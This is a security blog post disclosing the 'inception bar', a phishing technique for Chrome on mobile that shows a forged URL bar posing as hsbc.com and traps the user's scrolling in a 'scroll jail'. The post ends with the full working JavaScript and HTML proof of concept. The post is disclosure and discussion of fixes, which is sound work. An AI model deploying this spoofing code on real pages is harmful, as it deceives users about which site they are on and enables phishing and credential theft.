 ```yaml
---
title: 'The inception bar: a new phishing method'
tags:
  - programming
  - security
  - fave
hnUrl: 'https://news.ycombinator.com/item?id=19768072'
hnUpvotes: 1046
summary: >-
  A new phishing technique that displays a fake URL bar in Chrome for mobile. A key innovation is the "scroll jail" that traps the user in a fake browser.
---
```


Welcome to HSBC, the world's seventh-largest bank!
Of course, the page you're reading isn't actually hosted on `hsbc.com`;
it's hosted on `jameshfisher.com`.
But when you visit this page on Chrome for mobile and scroll a little way,
the page is able to display itself as `hsbc.com` -
and worse,
the page is able to jail you in this fake browser!
In this post I show how the attack works,
then suggest some ways Chrome can fix this vulnerability,
then finally show you how to get out if you're still stuck here.
But first, the proof:

<p><img src="./proof.png"/></p>

In Chrome for mobile,
when the user scrolls down,
the browser hides the URL bar,
and hands the URL bar's screen space to the web page.
Because the user associates this screen space with "trustworthy browser UI",
a phishing site can then use it to pose as a different site,
by displaying its own fake URL bar -
the inception bar!

This is bad, but it gets worse.
Normally, when the user scrolls up,
Chrome will re-display the true URL bar.
But we can trick Chrome so that it never re-displays the true URL bar!
Once Chrome hides the URL bar,
we move the entire page content into a "scroll jail" -
that is, a new element with `overflow:scroll`.
Then the user _thinks_ they're scrolling up in the page,
but in fact they're only scrolling up in the scroll jail!
Like a dream in _Inception_,
the user believes they're in their own browser,
but they're actually in a browser within their browser.
Here's a video of the hack in use:

<video width="100%" controls autoplay loop style="margin: 0 auto; border: 2px solid black;">
  <source src="./demo.webm" type="video/webm">
  Your browser does not support the video tag.
</video>

But it gets even worse!
Even with the above "scroll jail",
the user should be able to scroll to the top of the jail,
at which point Chrome will re-display the URL bar.
But we can disable this behavior, too!
We insert a very tall padding element
at the top of the scroll jail.
Then, if the user tries to scroll into the padding,
we scroll them back down to the start of the content!
It looks like a page refresh.

In my proof-of-concept,
I've just screenshotted Chrome's URL bar on the HSBC website,
then inserted that into this webpage.
With a little more effort,
the page could detect which browser it's in,
and forge an inception bar for that browser.
With yet more effort,
the inception bar could be made interactive.
Even if the user isn't fooled by the current page,
you can get another try
after the user enters "gmail.com" in the inception bar!

Is this a serious security flaw?
Well, even I, as the creator of the inception bar,
found myself accidentally using it!
So I can imagine this technique fooling users
who are less aware of it,
and who are less technically literate.
The only time the user has the opportunity to verify the true URL
is on page load,
before scrolling the page.
After that, there's not much escape.

How can you guard yourself against this attack?
I don't really know.
I see it as a security flaw in Chrome.
But what's the fix?
There's a trade-off,
between maximizing screen space on one hand,
and retaining trusted screen space on the other.
One compromise would be for Chrome to retain a small amount of screen space
above [the "line of death"](https://textslashplain.com/2017/01/14/the-line-of-death/)
instead of giving up literally _all_ screen space to the web page.
Chrome could use this space to signal that
"the URL bar is currently collapsed",
e.g. by displaying the shadow of an almost-hidden URL bar.

I don't want to keep you any longer.
If you're still stuck here,
one way to get out is to
[go to the Hacker News discussion and upvote this article](https://news.ycombinator.com/item?id=19768072).
Or, for hacks similar to this one,
see [this inception attack based on the fullscreen API](https://feross.org/html5-fullscreen-api-attack/),
or [my "custom cursor" inception attack from 2016](https://jameshfisher.github.io/cursory-hack/).

<div id="fakeurlbar" style="display: none; position: fixed; top: 0px; left: 0; height: 74.77037037037037px; width: 100vw; background-image: url('./bar_background.png'); background-size: 19px 74.77037037037037px;">
  <img src="./bar_left.png" style="float: left; width: 211.72222222222223px;"/>
  <img src="./bar_right.png" style="float: right;  width: 124.74444444444444px;"/>
</div>

<script>
  let scrollJailEl = null;
  const initialHeight = window.innerHeight;
  const fakeUrlBarEl = document.getElementById("fakeurlbar");
  const fakeTopHeight = 200;
  document.body.appendChild(fakeUrlBarEl);
  window.onresize = function() {
    if (window.innerHeight > initialHeight && !scrollJailEl) {
      // Chrome has given up its URL bar!
      // Create the scroll jail and the fake URL bar!

      const jailScrollTo = window.scrollY;

      fakeUrlBarEl.style.display = "block";

      document.body.style.margin = "0";

      scrollJailEl = document.createElement("div");
      scrollJailEl.style.position = "fixed";
      scrollJailEl.style.overflowX = "scroll";
      scrollJailEl.style.overflowY = "scroll";
      scrollJailEl.style.width = window.innerWidth + "px";
      scrollJailEl.style.height = window.innerHeight + "px";
      scrollJailEl.style.top = "56px";
      scrollJailEl.style.padding = "0 1em";

      // create the fake top
      const fakeTopEl = document.createElement("div");
      fakeTopEl.style.height = fakeTopHeight + "px";
      scrollJailEl.appendChild(fakeTopEl);

      // move everything into the scroll jail
      while (document.body.children.length > 0) {
        const child = document.body.children[0];
        scrollJailEl.appendChild(child);
      }

      document.body.appendChild(scrollJailEl);
      document.body.appendChild(fakeUrlBarEl);

      scrollJailEl.scrollTop = jailScrollTo + fakeTopHeight + 56;

      let scroller;
      scrollJailEl.onscroll = e => {
        clearTimeout(scroller);
        scroller = setTimeout(() => {
          // We stopped scrolling. Reset the jail.
          scrollJailEl.scrollTo({
            top: Math.max(scrollJailEl.scrollTop, fakeTopHeight),
            left: 0,
            behavior: 'smooth'
          });
        }, 100);
        console.log("scroll");
      };
    }
  };
</script>
